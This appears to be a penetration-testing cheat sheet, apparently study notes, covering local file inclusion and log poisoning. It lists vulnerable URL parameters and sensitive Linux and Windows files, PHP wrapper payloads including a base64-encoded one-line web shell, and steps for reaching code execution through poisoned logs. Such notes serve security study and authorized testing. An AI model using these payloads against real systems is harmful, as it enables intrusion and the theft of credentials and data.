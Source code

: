 ## Manual Source Code Review

Always check page source for:
- Hidden form fields with default values
- JavaScript files containing API endpoints
- Comments with credentials or file paths
- AJAX endpoints in JavaScript
- Hardcoded API keys or tokens

## Local File Inclusion (LFI)

**Common vulnerable parameters:**
- ?file=
- ?page=
- ?include=
- ?path=
- ?doc=
- ?template=

**Linux targets:**
- /etc/passwd
- /etc/shadow (if readable)
- /var/log/apache2/access.log
- /var/log/auth.log
- /proc/self/environ

**Windows targets:**
- C:\windows\system32\drivers\etc\hosts
- C:\windows\win.ini
- C:\inetpub\wwwroot\web.config

**PHP wrappers for LFI:**
- php://filter/convert.base64-encode/resource=config.php
- php://input (for code execution via POST data)
- data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+ (embedded PHP)

## Log Poisoning for RCE

**Common log locations (Linux):**
- /var/log/apache2/access.log
- /var/log/apache2/error.log
- /var/log/nginx/access.log
- /var/log/auth.log (SSH logs)
- /var/log/mail.log
- /var/log/vsftpd.log

**Common log locations (Windows):**
- C:\xampp\apache\logs\access.log
- C:\wamp\logs\access.log
- C:\inetpub\logs\LogFiles\W3SVC1\

**Log poisoning steps:**
1. Inject PHP payload into log (via User-Agent, SSH username, etc.)
2. Use LFI to include the poisoned log file
3. Pass commands via GET parameter
